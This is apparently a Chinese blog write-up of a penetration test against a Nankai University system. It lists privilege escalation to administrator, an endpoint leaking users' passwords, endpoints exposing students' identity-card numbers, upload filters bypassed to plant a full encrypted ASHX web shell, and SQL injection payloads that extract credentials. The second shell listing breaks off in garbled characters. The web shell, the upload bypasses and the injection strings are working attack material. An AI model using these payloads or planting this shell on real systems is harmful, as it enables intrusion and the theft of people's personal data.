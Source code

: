 ```yaml
---
# date是手动设置此篇文章编写的时间
date: "2022/08/20 17:00"

# 手动设置此篇文章封面
coverUrl: "https://img-blog.csdnimg.cn/d38b1545fdc34ab9b04b85ad25d47dea.png"

# 是否置顶
stick: false

# 设置keyword 多个以,分开
keyword: 渗透测试,EDU,web安全
# 设置description
description: 南开大学某系统的渗透测试
# 手动设置标题，否则使用h1标签作为标题
title: 南开大学某系统的渗透测试

# 这是设置标签，数组形式
tag: [EDU]

# 这里设置类别，数组形式
categories: [Edu渗透测试]



---
```




# 漏洞点1：越权

url:https://xxxx.xxxxx.edu.cn  
某开大学证书站 (同系统不同站  思路一样)
通过superadmin账号登录获取日志接口信息
password替换成
ecfe6335568d9aa8fxxxxxxxd92bca
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/d38b1545fdc34ab9b04b85ad25d47dea.png)

日志接口获取所有登录过的账号和密码
post /sys/log/loadLogLoginAndOutList
rows=10&page=2&order=asc&remote_ip=&username=&startTime=&endTime=
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/3db9c50420e94e96aa797252ebd1d1fb.png)

拿获取的学生账号登录

> 15xxxxxx 3a45
> 3xxxxxxxxxxxx1eef6d9

接口获取学生个人信息，身份证+姓名+学号

> /gradms/base/infoStutrainInfo/loadInfoStutrainInfoList?state=1

GET改为POST传输

> rows=10&page=1&order=asc&orgCode=&majorUniqueId=&grade=&perNum=&perName=

page是页数

 ![在这里插入图片描述](https://img-blog.csdnimg.cn/9d3750f871364dfdba69f65b612a59f9.png)

```bash
POST /auth/switchPosition
positionId=1
```

直接成为管理员


# 漏洞点2：文件上传GetShell

## 漏洞1：

网站存在一处上传
WAF是安全狗的  头像处
先上传一个11.jpg的文件，然后抓包的时候改成11.html.ashx
然后记住

> 104DCCCA002D5F067BFD970D2CF37410

这样就绕过检测
直接上传11.ashx会waf拦截
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/427eca1dd4384cc5b66c197fe27dde74.png)

然后继续吧得到的Ticket替换之前成11.html.ashx的
然后插入免杀一句话，11.jpg改成11.html.ashx并且替换ticket改成 

> 104DCCCA002D5F067BFD970D2CF37410


![在这里插入图片描述](https://img-blog.csdnimg.cn/051c5e142e684df78bd5fb9fba9fdd00.png)

WAF检测文件名和内容
这里用到两个脚本一个是ashx免杀马
一个是生成文件的马，都能绕过安全狗检测
ashx马：

```bash
<%@ Language="C#" Class="Handler1" %>
public class Handler1 : System.Web.IHttpHandler,System.Web.SessionState.IRequiresSessionState
{
public void ProcessRequest(System.Web.HttpContext Context) { try{string key = "202cb962ac59075b";string pass = "123";string md5 = System.BitConverter.ToString(new System.Security.Cryptography.MD5CryptoServiceProvider().ComputeHash(System.Text.Encoding.Default.GetBytes(pass + key))).Replace("-", "");byte[] data = System.Convert.FromBase64String(Context.Request[pass]);data = new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(data, 0, data.Length);if (Context.Session["payload"] == null){ Context.Session["payload"] = (System.Reflection.Assembly)typeof(System.Reflection.Assembly).GetMethod("Load", new System.Type[] { typeof(byte[]) }).Invoke(null, new object[] { data }); ;}else{ object o = ((System.Reflection.Assembly)Context.Session["payload"]).CreateInstance("LY"); o.Equals(Context); o.Equals(data); byte[] r = System.Convert.FromBase64String(o.ToString()); Context.Response.Write(md5.Substring(0, 16)); Context.Response.Write(System.Convert.ToBase64String(new System.Security.Cryptography.RijndaelManaged().CreateEncryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(r, 0, r.Length))); Context.Response.Write(md5.Substring(16));}}catch(System.Exception){} } public bool IsReusable { get { return false; } } }
ashx生成马:
<%@ WebHandler Language="C#" Class="Handler" %>
using System;
using System.Web;
using System.IO;
public class Handler : IHttpHandler {
public void ProcessRequest (HttpContext context) { context.Response.ContentType = "text/plain"; //偬(頤
```


目录遍历（全局都是遍历）
可以看到解析了并且内容也出来了

![在这里插入图片描述](https://img-blog.csdnimg.cn/94c7f0bdbf1241739376ae015e0ed008.png)

 

## 漏洞2

账号注册随意  一般都有头像上传或者申请要上传证件照什么的
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/94720eea5a2a472e9824545db93d8a27.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/94446189c2c24e53a9a228768fa0879a.png)


如果上传php-waf的话拦截

 ![在这里插入图片描述](https://img-blog.csdnimg.cn/8ec9be3f48eb4f8c996873b00736bc36.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2ec72f4f57e24da48551371c56a238d7.png)


> Content-Disposition: form-data; name="file"; filename="1.html 
> Content-Disposition: filename="."

双写Content-Disposition拼接绕过
判断第一个filename获取不到闭合换下行组合白名单闭合绕过

## 漏洞点3：SQL注入两处Bypass

注入点

> /apps/MyVideo/TeacherSchool/MyStudent.aspx

注入绕过

> 11'+//AND+//(//SELECT//+2868+//FROM//+(//SELECT//(SLEEP(2)))pcFy)+//AND//+'


![在这里插入图片描述](https://img-blog.csdnimg.cn/0dee56a7da9f48028788768b9a83eeee.png)



> https://xxxx.nankai.edu.cn/http/77726476706e69737468656265737421f2e30f92263e635177468ca88d1b203b/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(),concat((select%20(select%20(select%20concat(username,0x27,password)%20from%20cdb_members%20limit%201)%20)%20from%20information_schema.tables%20limit%200,1),floor(rand(0)2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

 ![在这里插入图片描述](https://img-blog.csdnimg.cn/6572ece8bc0c4a36ae4e00eb99a1debb.png)

成功注入出数据



